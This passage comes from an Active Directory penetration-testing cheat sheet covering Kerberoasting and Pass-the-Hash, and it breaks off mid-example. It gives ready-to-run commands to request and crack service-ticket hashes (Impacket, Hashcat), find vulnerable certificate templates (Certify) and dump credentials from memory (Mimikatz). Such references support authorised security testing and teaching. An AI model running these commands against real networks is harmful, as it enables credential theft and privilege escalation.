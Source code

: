 ### 3.2 Kerberoasting
- **Description**: Exploit service accounts with weak passwords by requesting and cracking Kerberos service tickets.
- **Techniques**:
  - Request Ticket Granting Service (TGS) tickets for service accounts.
  - Crack tickets offline to recover passwords.
  - Exploit misconfigured Service Principal Names (SPNs).
  - Target AD Certificate Services (ADCS) for certificate-based attacks.
  - Abuse constrained delegation for service access.
- **Tools**:
  - **Impacket (GetUserSPNs.py)**: Requests TGS tickets.
  - **Hashcat**: Cracks Kerberos hashes.
  - **Rubeus**: Performs Kerberoasting from Windows.
  - **tgsrepcrack**: Cracks TGS tickets.
  - **Certify**: Enumerates and attacks ADCS.
  - **PKINITtools**: Exploits Kerberos PKINIT vulnerabilities.
  - **StandIn**: Enumerates and exploits delegation settings.
- **Examples**:
  - Request TGS tickets with Impacket:
    ```bash
    python3 GetUserSPNs.py -dc-ip 192.168.1.10 target.com/jdoe:Password123! -request -outputfile kerberoast_hashes.txt
    ```
    Crack with Hashcat:
    ```bash
    hashcat -m 13100 kerberoast_hashes.txt /usr/share/wordlists/rockyou.txt
    ```
    - **Explanation**: Extracts and cracks TGS ticket hashes, revealing weak service account passwords.
  - Use StandIn for constrained delegation:
    ```powershell
    StandIn.exe --kerberos --dc 192.168.1.10
    ```
    - **Explanation**: Enumerates accounts with constrained delegation, exploitable for service-specific access.
  - Use Certify to exploit ADCS:
    ```powershell
    Certify.exe find /vulnerable
    ```
    - **Explanation**: Identifies ADCS templates allowing unauthorized certificate issuance, enabling privilege escalation.[](https://www.hackthebox.com/blog/active-directory-penetration-testing-cheatsheet-and-guide)

### 3.3 Pass-the-Hash (PtH)
- **Description**: Use stolen NTLM hashes to authenticate to other systems without plaintext passwords.
- **Techniques**:
  - Extract NTLM hashes from memory or files.
  - Use hashes to authenticate to SMB, RDP, or other services.
  - Relay captured hashes for lateral movement.
  - Perform overpass-the-hash to obtain Kerberos tickets.
- **Tools**:
  - **Mimikatz**: Dumps NTLM hashes.
  - **CrackMapExec**: Uses hashes for authentication.
  - **PsExec**: Executes commands using stolen hashes.
  - **Impacket (wmiexec.py)**: Executes commands via WMI with hashes.
  - **Rubeus**: Performs overpass-the-hash attacks.
  - **evil-winrm**: Authenticates via WinRM with hashes.
- **Examples**:
  - Dump hashes with Mimikatz:
    ```powershell
    sekurlsa::logonpasswords
    ```
    Use with CrackMapExec: